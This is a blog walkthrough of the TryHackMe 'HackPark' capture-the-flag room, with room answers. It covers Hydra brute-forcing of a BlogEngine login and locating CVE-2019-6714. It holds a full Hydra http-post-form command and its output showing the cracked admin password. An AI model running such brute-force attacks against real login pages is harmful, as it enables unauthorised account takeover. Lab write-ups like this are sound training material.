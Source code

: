 ```yaml
---
layout: post
title: HackPark
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap]
---
```


![HackPark](/assets/hackpark.png){: .right }{: w="200" h="200" }

## Walkthrough
[https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)

**Difficulty level:** Easy

## Task 1: Deploy the vulnerable Windows machine 

Connect to our network and deploy this machine. Please be patient as this machine can take up to 5 minutes to boot! You can test if you are connected to our network, by going to our access page. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

This room will cover brute-forcing an accounts credentials, handling public exploits, using the Metasploit framework and privilege escalation on Windows.

### Questions

Q1.Deploy the machine and access its web server.

> "No answer needed"

Q2.Whats the name of the clown displayed on the homepage?

> "Pennywise"

### MyWalk

Just using reverse image on google if you don't recognize the famous clown immediately

## Task 2: Using Hydra to brute-force a login

Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful Kali Linux machine and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

### Questions

Q1. We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a GET request which is used to request data from a webserver and a POST request which is used to send data to a server.

You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found here).

What request type is the Windows website login form using?

> "post"

Q2. Now we know the request type and have a URL for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks:

```bash
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```
{: .nolineno }

Guess a username, choose a password wordlist and gain credentials to a user account!

> "1qaz2wsx"

### MyWalk

The format is this:  
hydra -l <username> -P <wordlist> <targetIP> http-post-form <login request pattern>

We'll try "admin" as user  
Wordlist will be "/usr/share/wordlists/rockyou.txt"  
The login request pattern parameter its the most difficult part.  
The format parameter is:  
"<path to login form>:<body, with magic strings ^USER^ and ^PASS^>:<pattern that appears in an invalid login>"  
The path to the login form is: "/Account/login.aspx"  
The pattern that appears in case of invalid login is the text that appears when a login fails. Texting a random login it shows "Login failed" on the page.  
For the body, we’ll need to go back to Inspect Element and grab the request payload, or use **burpsuite** and catch the payload when trying some random user:pass

Here is our hydra command:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.148.20 http-post-form "/Account/login.aspx:__VIEWSTATE=0PmFPbjr6L0ykVNVkOxFjCTUBuJwS0RkLnJpLBxGcxaPxYXEtGkcIwrCYoLqaMI8AROYvejb0%2F1iu2b6Zp%2FsiuegsUBVgt4Z%2FC8KQMBwW8fQRLObTDBwY%2F0qxd3z8QPZ%2Ff7EFYBi7iWr9N%2Fgdj7oN5W9AW9dMG39xY%2BokbKnDL87oOKl%2Fok5jk2Hi%2BHOIrL3cRx20gPhijGqneg%2FIamc7eCAqDlFqbmhUJsJ96TV9u7BB34TkuweWvcZDSMUNtzW0ONZWCH0mkQZ2VqQXGoNZEogUADQGoqy72wAokMNLJdQpFjWYkUlWQhJkED7FRJ7KAJCuSHNx7nzQj3Tu18zrJ5nTMxbJPQk%2Fpf9CHiq1ro42yQt&__EVENTVALIDATION=kSawRteG%2BddgXQlXhXu9hPgtdSXb%2FJugk%2FOmNlPkOAFmSJLSTyqgh1RHT82QvprzeuLSrjIC2zeJaUmRE5StSck0hFX4dUyrctJXnXSeh%2BLrru6Jn4YfqahgAruVPvxuH%2BtYEPx5bUHiWMd%2Btf%2Fy7Ux7CmhqmUo%2BAG%2BJ3t0TtqxiV9kD&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-24 11:40:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.148.20:80/Account/login.aspx:__VIEWSTATE=0PmFPbjr6L0ykVNVkOxFjCTUBuJwS0RkLnJpLBxGcxaPxYXEtGkcIwrCYoLqaMI8AROYvejb0%2F1iu2b6Zp%2FsiuegsUBVgt4Z%2FC8KQMBwW8fQRLObTDBwY%2F0qxd3z8QPZ%2Ff7EFYBi7iWr9N%2Fgdj7oN5W9AW9dMG39xY%2BokbKnDL87oOKl%2Fok5jk2Hi%2BHOIrL3cRx20gPhijGqneg%2FIamc7eCAqDlFqbmhUJsJ96TV9u7BB34TkuweWvcZDSMUNtzW0ONZWCH0mkQZ2VqQXGoNZEogUADQGoqy72wAokMNLJdQpFjWYkUlWQhJkED7FRJ7KAJCuSHNx7nzQj3Tu18zrJ5nTMxbJPQk%2Fpf9CHiq1ro42yQt&__EVENTVALIDATION=kSawRteG%2BddgXQlXhXu9hPgtdSXb%2FJugk%2FOmNlPkOAFmSJLSTyqgh1RHT82QvprzeuLSrjIC2zeJaUmRE5StSck0hFX4dUyrctJXnXSeh%2BLrru6Jn4YfqahgAruVPvxuH%2BtYEPx5bUHiWMd%2Btf%2Fy7Ux7CmhqmUo%2BAG%2BJ3t0TtqxiV9kD&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.148.20   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
```
{: .nolineno }


Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the http-post-form that we used above).

However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more. 

Consult the mini cheatsheet at the box link.

## Task 3: Compromise the machine 

In this task, you will identify and execute a public exploit (from exploit-db.com) to get initial access on this Windows machine!

Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)

### Questions

Q1. Now you have logged into the website, are you able to identify the version of the BlogEngine?

> "3.3.6.0"

Q2. Use the exploit database archive to find an exploit to gain a reverse shell on this system. 

> "CVE-2019-6714"

Q3. Using the public exploit, gain initial access to the server.

Who is the webserver running as?
 
> "*** ************"

### MyWalk

For Q1 Just click on "About" tab after login.
Searching for "BlogEngine" at exploit-db.com, gives us the CVE.
